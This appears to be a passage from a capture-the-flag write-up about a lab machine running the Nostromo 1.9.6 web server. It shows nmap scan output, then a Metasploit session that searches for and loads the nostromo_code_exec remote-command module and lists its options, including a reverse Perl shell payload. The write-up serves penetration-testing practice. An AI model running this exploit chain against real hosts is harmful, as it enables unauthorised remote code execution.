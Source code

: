 ```bash 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 34.455 days (since Sun Nov  3 07:03:30 2019)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   116.76 ms 10.10.14.1
2   117.07 ms 10.10.10.165
```

It seems that we have a web server called “Nostromo”. For more information here: http://www.nazgul.ch/dev_nostromo.html.

After searching on the web, I found out a Metasploit exploitation module for the Nostromo 1.9.6. Try to run Metasploit and search on nostromo 1.9.6. You will find the module exploit/multi/http/nostromo_code_exec

``` bash 
msf5 > search nostromo 1.9.6

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  exploit/multi/http/nostromo_code_exec      2019-10-20       good    Yes    Nostromo Directory Traversal Remote Command Ex

msf5 > use exploit/multi/http/nostromo_code_exec 

msf5 exploit(multi/http/nostromo_code_exec) > show options 

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```